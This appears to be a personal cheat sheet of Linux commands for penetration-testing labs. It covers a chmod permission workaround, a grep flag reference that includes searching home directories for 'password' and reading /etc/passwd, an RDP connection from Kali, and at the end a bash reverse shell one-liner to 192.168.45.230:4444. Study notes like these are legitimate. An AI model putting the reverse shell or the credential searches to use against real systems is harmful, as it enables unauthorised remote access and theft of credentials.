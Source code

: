# Linux Commands that could be helpful

# can show how to bypass file permissions if you dont have access to run chmod on target computer.
- locate universal.ovpn  - locate [filename] - show path to the file specified.
- ls -l newfilename.txt -  ls -l [optionalfilename] - will give us file permissions or list of the files in dir with permissions listed.
- cp /usr/bin/ls chmodfix - cp [filename] [newfilename] - will copy contents of first file to new one specified.
- cat /usr/bin/chmod > chmodfix - cat [filename] > [newfilename(exsisting)] - will take contents of one file and put it into a new file.
- when in doubt, if you know password/credentials use sudo

# 🔍 `grep` Quick Reference Guide  

## 📌 What is `grep`?  
`grep` (Global Regular Expression Print) is a command-line tool for searching **patterns in text files or outputs**. It supports **regular expressions, recursive searches, and filtering**. Commonly used for **log analysis, file searching, and security investigations**.

---

## 📊 Most Popular `grep` Flags  

| Flag        | Description | Usage Example |
|------------|-------------|--------------|
| `-i`       | Case-insensitive search | `grep -i "error" logfile.txt` |
| `-v`       | Invert match (exclude results) | `grep -v "root" /etc/passwd` |
| `-r`       | Recursive search in directories | `grep -r "password" /home/user/` |
| `-l`       | Show filenames only (hide matching lines) | `grep -l "admin" *.txt` |
| `-n`       | Show line numbers of matches | `grep -n "404" access.log` |
| `-w`       | Match whole words only | `grep -w "user" auth.log` |
| `-c`       | Count occurrences of the pattern | `grep -c "fail" syslog` |
| `-o`       | Show only the matching part of the line | `grep -o "[0-9]+\.[0-9]+\.[0-9]+\.[0-9]+" logs.txt` |
| `-E`       | Use **extended** regex (same as `egrep`) | `grep -E "error|fail|warning" syslog` |
| `-A <n>`   | Show **n** lines **after** a match | `grep -A 3 "error" logs.txt` |
| `-B <n>`   | Show **n** lines **before** a match | `grep -B 3 "failure" logs.txt` |
| `-C <n>`   | Show **n** lines **before & after** a match | `grep -C 2 "unauthorized" logs.txt` |

---

## 🚀 Quick Usage Examples  

- **Find "root" case-insensitively in `/etc/passwd`**  

```
 grep -i "root" /etc/passwd
```
 

Connect to windows(rdp) from kali:
```
xfreerdp /u:<username> /p:<password> /v:<ip>
```

shows what is running on linux system:
```
ps
```

reverse shell one liner:
```
bash -c 'bash -i >& /dev/tcp/192.168.45.230/4444 0>&1'
url encoded:

```

